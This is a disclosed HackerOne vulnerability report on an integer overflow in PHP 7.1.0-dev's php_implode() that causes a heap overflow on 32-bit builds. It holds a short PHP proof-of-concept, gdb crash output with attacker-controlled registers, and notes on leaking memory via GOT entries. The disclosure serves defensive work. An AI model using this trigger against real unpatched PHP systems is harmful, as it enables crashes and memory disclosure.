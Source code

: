 # An integer overflow bug in php_implode() could lead heap overflow, make PHP to crash

## Report Details
- **Report ID**: 113120
- **URL**: https://hackerone.com/reports/113120
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-01-27T21:57:52.867Z
- **Disclosed**: 2019-11-12T09:38:12.878Z

## Reporter
- **Username**: blue9057
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Description
-----------------
A heap overflow vulnerability can be triggered by
an integer overflow vulnerability,
which exists in PHP-7.1.0 due to missing overflow check
in a function php_implode() in ext/standard/string.c

I believe this could lead memory leak to the string if
carefully exploited with using global addresses
in the binary (e.g., GOT entries, heap addresses, etc.).

The bug happens on the line of ext/standard/string.c:1249,
upon calling zend_string_alloc().
Both %eax and %ecx can be controllable by the exploit.

str = zend_string_alloc(len + (numelems - 1) * ZSTR_LEN(delim), 0);

This is only triggered in 32bit machines.

PoC Exploit
-----------------
<?php
  $arr = [];
  for($i=0;$i<65536; ++$i) {
     $arr[$i]= "aa";
  }
  $text1 = str_repeat("ABCD", 16384);
  // Changing ABCD into other values will alter %eax and %ecx.
  $str = implode($text1, $arr);
?>

# Run this script with php version over 7.0


Result
---------
[blue9057@ubuntu ~/exploit/php$] gdb `which php`
GNU gdb (Ubuntu 7.7.1-0ubuntu5~14.04.2) 7.7.1
Copyright (C) 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from /usr/local/bin/php...done.
(gdb) r implode.php
Starting program: /usr/local/bin/php implode.php

Program received signal SIGSEGV, Segmentation fault.
php_implode (delim=delim@entry=0xb7401000, arr=arr@entry=0xb7a13160, return_value=return_value@entry=0xb7a13100) at /home/blue9057/php-src/ext/standard/string.c:1255
1255				cptr -= ZSTR_LEN(*strptr);
(gdb) i r
eax            0x44434241	1145258561
ecx            0x44434241	1145258561
edx            0xb7452004	-1220206588
ebx            0xb7452004	-1220206588
esp            0xbfffbf80	0xbfffbf80
ebp            0xcccccccd	0xcccccccd
esi            0xb7451fe4	-1220206620
edi            0xb7442004	-1220272124
eip            0x827f0d8	0x827f0d8 <php_implode+440>
eflags         0x10206	[ PF IF RF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) r -v
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /usr/local/bin/php -v
PHP 7.1.0-dev (cli) (built: Jan 24 2016 20:39:41) ( NTS )
Copyright (c) 1997-2016 The PHP Group
Zend Engine v3.1.0-dev, Copyright (c) 1998-2016 Zend Technologies
[Inferior 1 (process 3607) exited normally]
(gdb)


The attacker can control both %eax & %ecx for the arbitrary value.
The instruction is on moving the content at memory pointed by $eax to the memory address at $edx.
If it is carefully controlled, that copy of string operation can applied over a GOT addresses or sensitive areas to leak the data into PHP string variable.


## Attachments
No attachments
